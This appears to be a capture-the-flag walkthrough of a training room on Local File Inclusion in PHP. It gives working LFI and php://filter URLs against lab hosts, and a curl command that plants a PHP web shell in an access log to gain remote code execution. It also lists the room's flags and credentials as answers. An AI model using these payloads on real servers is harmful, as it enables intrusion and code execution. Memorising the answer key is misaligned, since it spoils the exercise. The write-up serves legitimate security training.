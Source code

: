 ```yaml
---
title: Patch Management Is Hard (Day 6)
sidebar_position: 7
---
```

## Topic: Web Exploitation
Challenge is an introduction on Local File Inclusion (LFI) vulnerabilities. 

LFI to read flag is just simply replace `error.txt` in the url on the homepage to `/etc/flag`.  
Reading the `index.php` flag is harder using php filter technique. `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=index.php` then base 64 decode the result on the webpage to read the flag and source code.  
See in sourcecode that its grabbing credentials from `./includes/creds.php`  
![[Pasted image 20211220174815.png]]

Look at that file by using our earlier php filter technique.  
url: `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`  
Find credentials:
```
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
```
app_access.log has a parameter RCE that allows us to execute code. 
command to get RCE: `curl -A "<?php echo 'test'; system(\$_GET['cmd']);?>" http://10.10.104.42/`  
url to perform RCE: `http://10.10.104.42/index.php?err=../../../../../../var/www/html/includes/logs/app_access.log&cmd=hostname`  
### Questions:

1. Deploy the attached VM and look around. What is the entry point for our web application?  
 `err`  
2. Use the entry point to perform LFI to read the /etc/flag file. What is the flag?  
url: `http://10.10.244.228/index.php?err=/etc/flag`  
flag: `THM{d29e08941cf7fe41df55f1a7da6c4c06}`  
3. Use the PHP filter technique to read the source code of the index.php. What is the $flag variable's value?  
url:`http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=index.php`  
flag:`THM{791d43d46018a0d89361dbf60d5d9eb8}`  
4. Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?  
url: `http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`  
answer: `McSkidy:A0C315Aw3s0m`  
5. Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server?  
flag: `THM{552f313b52e3c3dbf5257d8c6db7f6f1}`  
6. The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.  
url:`http://10.10.244.228/index.php?err=php://filter/convert.base64-encode/resource=./includes/logs/app_access.log`  
answer:`lfi-aoc-awesome-59aedca683fff9261263bb084880c965`  